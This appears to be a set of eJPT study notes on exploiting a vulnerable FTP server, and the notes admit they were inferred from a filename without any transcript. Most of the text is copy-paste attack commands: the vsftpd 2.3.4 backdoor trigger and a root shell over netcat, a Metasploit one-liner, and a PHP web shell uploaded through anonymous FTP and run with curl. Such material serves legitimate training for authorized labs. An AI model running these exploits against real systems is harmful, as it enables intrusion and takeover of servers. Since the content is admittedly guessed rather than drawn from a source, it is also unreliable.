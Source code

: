 # 01 - Exploiting A Vulnerable FTP Server (eJPT Study Notes)

Note: No transcript was provided. The following is a conservative, common eJPT-style workflow inferred from the filename and Linux exploitation context. This typically demonstrates exploiting vsftpd 2.3.4’s backdoor and basic FTP misconfigurations.

## What the video covers (Introduction / big picture)
- Discovering and enumerating an FTP service on a Linux target
- Identifying a vulnerable FTP server (commonly vsftpd 2.3.4 with a known backdoor)
- Exploiting the backdoor manually and via Metasploit to obtain a root shell
- Quick checks for common FTP misconfigurations (anonymous login, write access)
- Light post-exploitation validation

## Flow (ordered)
1. Host discovery and port scanning
2. Service and version detection on port 21/tcp
3. Run relevant Nmap FTP NSE scripts to identify issues (anon access, backdoor)
4. Manual vsftpd 2.3.4 backdoor trigger and shell retrieval on port 6200
5. Alternative: Metasploit module for vsftpd backdoor
6. Verify shell and perform basic post-exploitation checks
7. Optional: Check for anonymous FTP and upload vector if applicable
8. Document findings and cleanup

## Tools highlighted
- nmap (with NSE scripts: ftp-anon, ftp-vsftpd-backdoor, banner/service detection)
- ftp (standard client) or lftp (optional)
- netcat/nc (for shell on backdoor port)
- Metasploit Framework (msfconsole, exploit/unix/ftp/vsftpd_234_backdoor)
- curl/wget (optional, web checks if FTP is tied to web root)

## Typical command walkthrough (detailed, copy-paste friendly)

Set target IP once for reuse:
```
export IP=10.10.10.10
```

1) Fast discovery scan (optional if you know the target):
```
nmap -p21 -sV -sC -Pn $IP
```

2) Full port scan then focused service detection (optional but good practice):
```
nmap -p- --min-rate 10000 -T4 -Pn $IP
nmap -sV -sC -p21,6200 $IP
```

3) FTP NSE checks:
```
# Check for anonymous login
nmap -p21 --script=ftp-anon $IP

# Specifically test for vsftpd 2.3.4 backdoor
nmap -p21 --script=ftp-vsftpd-backdoor $IP
```

4) Manual vsftpd 2.3.4 backdoor trigger:
- The backdoor is triggered when a username containing “:)” is processed.
- After triggering, a root shell should spawn on TCP port 6200.

Trigger it:
```
# Using netcat to send the crafted USER and PASS
printf "USER test:)\r\nPASS anything\r\n" | nc -nv $IP 21
```

Connect to the backdoor shell:
```
nc -nv $IP 6200
# If successful, you should have a root shell. Try:
id
whoami
uname -a
```

5) Metasploit exploitation (alternative to manual):
```
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS $IP
set RPORT 21
run
# Meterpreter/shell session should open as root; verify with:
getuid
shell
id
```

6) Basic post-exploitation checks (be ethical; only in authorized labs):
```
# From the shell:
id
hostname
ip addr
ls -la /
cat /etc/issue
# If a lab “flag” exists:
find / -type f -name "*flag*" 2>/dev/null | head
```

7) Optional: Check for anonymous FTP and writable paths
```
ftp -inv $IP << 'EOF'
user anonymous anonymous
pwd
ls -la
# Try upload if permitted (adjust local file path)
put /etc/hosts test_upload.txt
ls -la
bye
EOF
```

If the FTP root maps to a web directory (common in CTFs), try dropping a simple web command shell and call it via HTTP:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
ftp -inv $IP << 'EOF'
user anonymous anonymous
put shell.php
bye
EOF

# Then from your box:
curl "http://$IP/shell.php?cmd=id"
```
Only attempt this if you confirm anonymous write access and the FTP root is served by a web server.

## Practical tips
- If the vsftpd backdoor is present, port 6200 only opens after you send a username with “:)”. If nc to 6200 fails, re-trigger and re-scan that port.
- Use nmap’s ftp-vsftpd-backdoor NSE script to quickly verify the vulnerability.
- If service banners are hidden or tampered, still try the backdoor trigger (harmless on non-vulnerable vsftpd; it just fails).
- If 6200 is filtered by a firewall, the Metasploit module may handle nuances better; otherwise, consider pivoting or firewall bypass if in-scope.
- Always check for anonymous FTP; misconfigurations often allow read or write, enabling data exfiltration or webshell drop (if FTP root maps to web root).
- Prefer passive mode in ftp clients when behind NAT/firewalls if you see data channel issues.

## Minimal cheat sheet (one-screen flow)
```
export IP=10.10.10.10

# Enumerate FTP
nmap -p21 -sV -sC -Pn $IP
nmap -p21 --script=ftp-anon,ftp-vsftpd-backdoor $IP

# Manual vsftpd 2.3.4 backdoor
printf "USER test:)\r\nPASS x\r\n" | nc -nv $IP 21
nmap -p6200 $IP
nc -nv $IP 6200
id

# Metasploit alternative
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS $IP; run"

# Check anonymous FTP write (optional)
ftp -inv $IP << 'EOF'
user anonymous anonymous
ls -la
put /etc/hosts test.txt
bye
EOF
```

## Summary
- You enumerated an FTP service and identified the classic vsftpd 2.3.4 backdoor.
- You exploited it manually by sending a “:)” in the USER field, then connected to a root shell on port 6200.
- Alternatively, you used Metasploit’s exploit/unix/ftp/vsftpd_234_backdoor module.
- You also confirmed basic FTP misconfig checks (anonymous access, potential write) as a secondary path.
- This workflow covers discovery, verification, exploitation, and quick post-exploitation validation for a vulnerable FTP server on Linux.